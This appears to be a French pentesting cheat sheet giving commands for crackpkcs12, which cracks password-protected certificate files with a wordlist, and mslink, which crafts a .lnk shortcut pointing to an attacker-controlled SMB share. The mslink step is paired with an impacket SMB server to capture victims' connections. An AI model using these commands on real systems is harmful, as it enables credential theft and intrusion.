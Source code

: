 # Tools

[crackpkcs12](#crackpkcs12)


## crackpkcs12

Crackpkcs12 est un outil qui permet de cracker des certificat protégé par mots de passe.
<br>
<br>
Exemple d'utilisation:

```
crackpkcs12 -d /usr/share/wordlists/rockyou.txt cert.pfx
```

URL:
```
https://sourceforge.net/projects/crackpkcs12/files/
```
Installation:
```
tar -xf crackpkcs12*
cd crackpkcs12*
./configure
make
sudo make install
```
<br>
<br>

## mslink

mslink permet de créer un raccourci qui doit pointer vers un partage SMB par exemple, l'avantage est que l'utilisateur n'a pas besoin de le lancer pour qu'il fonctionne.

```
./mslink.sh -l notimportant -n shortcut -i \\\\<AttackerIP>\\<ShareName> -o shortcut.lnk
```

URL:
```
http://www.mamachine.org/mslink/index.en.html
```
Suite (exemple):
```
python3 /opt/impacket/examples/smbserver.py -smb2support <ShareName> .
```

Peut également être réaliser avec Responder

